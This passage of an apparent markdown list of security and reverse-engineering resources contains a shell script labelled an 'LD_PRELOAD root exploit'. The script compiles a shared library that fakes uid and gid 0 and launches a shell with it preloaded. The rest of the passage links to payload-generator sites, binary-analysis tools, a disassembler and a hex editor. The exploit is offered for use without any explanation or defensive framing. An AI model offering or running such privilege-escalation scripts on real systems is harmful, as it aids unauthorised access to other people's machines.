 *   ***LD_PRELOAD root exploit***

    <div class="spoiler">
    <div class="spoiler-title" markdown="1">
    *(http://lcamtuf.coredump.cx/soft/ld-expl)*:
    </div>
    <div class="spoiler-text" markdown="1">
    ``` bash
    #!/bin/sh
    cd /tmp
    cat >expl.c <<eof
    int getuid() { return 0; }
    int geteuid() { return 0; }
    int getgid() { return 0; }
    int getegid() { return 0; }
    eof
    gcc -shared expl.c -o expl.so
    LD_PRELOAD=/tmp/expl.so sh
    rm /tmp/expl.so /tmp/expl.c
    ```

    </div>
    </div>

* {:.dummy} [Duck toolkit](https://ducktoolkit.com/) - online payload scripts generator (win, linux)
* {:.dummy} [Bunny toolkit](https://bunnytoolkit.com/payloadindex/) - some payload examples

### other

* [Triton](https://triton.quarkslab.com/) - dynamic binary analysis framework
* [Hybrid analysis](https://www.hybrid-analysis.com/) - a free malware analysis service for the community that detects and analyzes unknown threats using a unique Hybrid Analysis technology
* {:.dummy} [fuzzball](https://github.com/bitblaze-fuzzball/fuzzball) - symbolic execution tool for x86
* {:.dummy} [SASM](https://github.com/Dman95/SASM) - simple opensource crossplatform IDE for NASM, MASM, GAS, FASM assembly languages

* {:.dummy} <div class="spoiler"><div class="spoiler-title"><i>
        Online utils:
    </i></div><div class="spoiler-text" markdown="1">

    * [ODA](https://www.onlinedisassembler.com/odaweb/) - the online disassembler
    * [HexEd.it](https://hexed.it/) - online hexeditor

    </div></div>


<br><br>

---

## Tools

### debuggers, disassemblers, hex-/binary- editors
